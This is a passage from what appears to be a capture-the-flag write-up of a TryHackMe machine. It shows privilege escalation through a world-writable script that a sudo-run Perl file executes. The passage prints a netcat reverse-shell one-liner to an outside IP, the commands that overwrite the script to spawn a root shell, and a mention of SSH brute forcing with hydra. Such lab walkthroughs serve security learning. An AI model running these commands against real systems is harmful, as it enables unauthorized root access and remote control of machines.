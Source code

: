     www-data@THM-Chal:/home/itguy$ cat backup.pl
    
        #!/usr/bin/perl
        
        system("sh", "/etc/copy.sh");

The permissions on this file mean we cannot edit but we can edit copy.sh:

    www-data@THM-Chal:/home/itguy$ ls -al /etc | grep "copy.sh"
    -rw-r--rwx   1 root root      81 Nov 29  2019 copy.sh

------------------------------

## Root Reverse Shell
The contents of copy.sh gives us a reverse shell that just need updating with our IP and port.

    www-data@THM-Chal:/home/itguy$ cat /etc/copy.sh
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f

-------------------------------

## Root Shell 
More simply we can just edit copy.sh to gives us a root shell like so:

    www-data@THM-Chal:/home/itguy$ echo '/bin/sh -i' > /etc/copy.sh
    www-data@THM-Chal:/home/itguy$ sudo /usr/bin/perl /home/itguy/backup.pl
    # whoami
    root
    # python -c 'import pty; pty.spawn("/bin/bash")'
    root@THM-Chal:/home/itguy# 

From here, we can read out the contents of the root flag.

    root@THM-Chal:/# cd /root
    root@THM-Chal:~# ls
    root.txt
    root@THM-Chal:~# cat root.txt
    THM{6637f[Redacted]24699f}

---------------------

# Extra Notes
## Brute Forcing SSH
Once I knew the username itguy, I did attempt to brute force his SSH password using hydra and rockyou.txt. However, this did not yield any results. 

----------------